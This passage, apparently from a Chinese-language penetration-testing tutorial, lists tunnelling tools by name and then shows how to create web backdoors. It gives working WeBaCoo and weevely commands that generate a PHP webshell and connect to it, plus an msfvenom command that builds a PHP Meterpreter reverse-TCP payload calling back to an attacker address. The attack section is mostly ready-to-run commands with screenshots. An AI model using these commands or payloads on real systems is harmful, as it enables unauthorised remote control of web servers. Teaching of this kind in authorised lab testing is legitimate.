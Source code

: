 ##### ncat

##### proxychains

##### ptunnel

##### socat
 
##### sslh

##### stunnel4

### 三、创建web后门
##### WeBaCoo
命令：
-g 制作后门代码
-f 后门所需的php功能：system（默认）/shell_exec/exec/passthru/popen
-o 输出 指定生成的后门程序的文件名
举例：

```bash
webacoo -g -o test.php  使用默认配置生成php后门程序
webacoo -t -u http://192.168.43.89/test.php
```

连接到后门程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407205544970.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center =x)

##### weevely
生成混淆PHP backdoor，并将后门保存为display.php
```bash
weevely generate password display.php
weevely http://192.168.43.89/display.php password
```
访问被测主机的webshell


![在这里插入图片描述](https://img-blog.csdnimg.cn/2020040721001988.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center =x)
##### PHP Meterpreter
-p 指定payload为php/meterpreter/reverse_tcp

-f 设置输出格式

lhost 为攻击机地址
lport 为攻击机端口

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.180 LPORT=1234 -f raw > a.php
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407215851468.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center =x)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407220607645.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center =x)



